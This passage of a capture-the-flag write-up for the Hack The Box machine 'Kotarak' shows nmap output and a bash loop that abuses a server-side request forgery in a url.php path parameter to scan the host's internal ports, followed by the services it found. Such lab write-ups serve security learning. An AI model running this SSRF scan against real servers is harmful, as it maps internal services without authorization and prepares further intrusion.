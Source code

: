     Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    TRACEROUTE (using port 22/tcp)
    HOP RTT      ADDRESS
    1   57.30 ms 10.10.14.1
    2   57.38 ms kotarak.htb (10.10.10.55)
    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done at Thu Sep 24 11:09:43 2020 -- 1 IP address (1 host up) scanned in 57.80 seconds
</pre>
Something unusual hosted on TCP 60000:

![kotarak web app 60000](/cstatic/htb-kotarak/kotarak-60000-web.png)

This web app allows us to enumerate local services that do not exposed over the network, for example
that listening only on `127.0.0.1`. A little bash script composed to enumerate some:
```bash
#!/bin/bash

for i in {1..65535};
do
    len=$(curl -s http://10.10.10.55:60000/url.php?path=127.0.0.1:$i | wc -c)
    if [[ len -gt 2 ]];
    then
        printf 'TCP %i\tLEN = %i\n' $i $len
    fi
done
```

Some local services discovered:
<pre>
TCP 22  LEN = 62
TCP 90  LEN = 156
TCP 110 LEN = 187
TCP 200 LEN = 22
TCP 320 LEN = 1232
TCP 888 LEN = 3955
TCP 3306 LEN = 123
TCP 8080 LEN = 994
</pre>
